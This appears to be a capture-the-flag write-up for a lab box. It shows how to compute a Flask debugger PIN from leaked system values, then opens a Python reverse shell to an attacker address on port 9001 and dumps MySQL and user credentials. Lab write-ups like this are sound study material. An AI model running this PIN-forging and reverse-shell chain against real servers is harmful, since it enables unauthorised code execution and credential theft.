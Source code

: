 `/sys/class/net/eth0/address`

```
00:50:56:b9:c9:eb
```

```py
>>> print(0x005056b9c9eb)
345052400107
```

## get_machine_id() 

- `/etc/machine-id: ed5b159560f54721827644bc9b220d00`
- `/proc/sys/kernel/random/boot_id: 8dcacee1-c91d-4ea3-92b7-e3e9251743c6` - apparently not used anymore
- `/proc/self/cgroup (needed part): superpass.service`

So **get_machine_id()**: `ed5b159560f54721827644bc9b220d00superpass.service`

## getattr(mod, '__file__', None)

Leaked by the error page:

`/app/venv/lib/python3.10/site-packages/flask/app.py`

## other values

- `username`: **www-data**
- `modname`: **flask.app**
- `getattr(app, '__name__', getattr (app .__ class__, '__name__'))`: **wsgi_app** -- needed to recreate the environment and debug print

[generate.py](generate.py) generates the PIN.

**PIN: 525-953-245**

# Reverse shell as www-data

After using the PIN:

`import socket,os,pty;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.14.178",9001));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);pty.spawn("/bin/sh")`

`id`

```
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

`mysql -u superpassuser`

**superpassuser:dSA6l7q*yIVs$39Ml6ywvgK**

There is a password:

```
agile:corum:5db7caa1d13cc37c9fc2
```
